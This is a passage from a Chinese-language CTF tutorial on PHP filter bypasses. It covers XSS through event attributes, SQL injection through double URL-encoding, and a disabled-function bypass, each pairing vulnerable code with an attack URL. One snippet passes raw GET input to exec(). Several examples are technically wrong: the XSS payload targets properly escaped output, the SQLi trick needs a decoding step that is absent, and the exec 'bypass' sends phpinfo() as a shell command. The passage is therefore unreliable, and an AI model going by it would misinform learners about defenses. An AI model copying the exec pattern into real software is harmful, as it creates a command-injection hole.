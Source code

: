 ### 4. 绕过输入验证

#### 示例：跨站脚本（XSS）绕过
利用字符编码或事件属性来绕过输入验证。

##### 漏洞代码：
```php
<?php
echo htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```

##### 绕过方法：
利用事件属性：
```
http://example.com/page.php?name=" onmouseover="alert('XSS')
```

### 5. 绕过特殊字符过滤

#### 示例：SQL注入绕过
通过字符编码或使用SQL函数来绕过特殊字符过滤。

##### 漏洞代码：
```php
<?php
$id = addslashes($_GET['id']);  // 转义特殊字符
$query = "SELECT * FROM users WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```

##### 绕过方法：
利用字符编码：
```
http://example.com/page.php?id=%2527%2520OR%25201=1--+
```

### 6. 绕过函数限制

#### 示例：禁用函数绕过
通过利用其它函数或特定环境来绕过禁用函数。

##### 漏洞代码：
```php
<?php
if (function_exists('exec')) {
    exec($_GET['cmd']);
} else {
    echo "Function not available";
}
?>
```

##### 绕过方法：
利用其它可用的函数：
```php
http://example.com/page.php?cmd=phpinfo()
```

### 总结
以上是一些常见的PHP绕过技巧和示例。在CTF比赛中，选手需要灵活运用这些技巧来绕过防御机制，发现并利用代码中的漏洞。同时，开发者应对代码进行严格的输入验证和输出编码，使用安全的编程实践，减少代码漏洞的产生。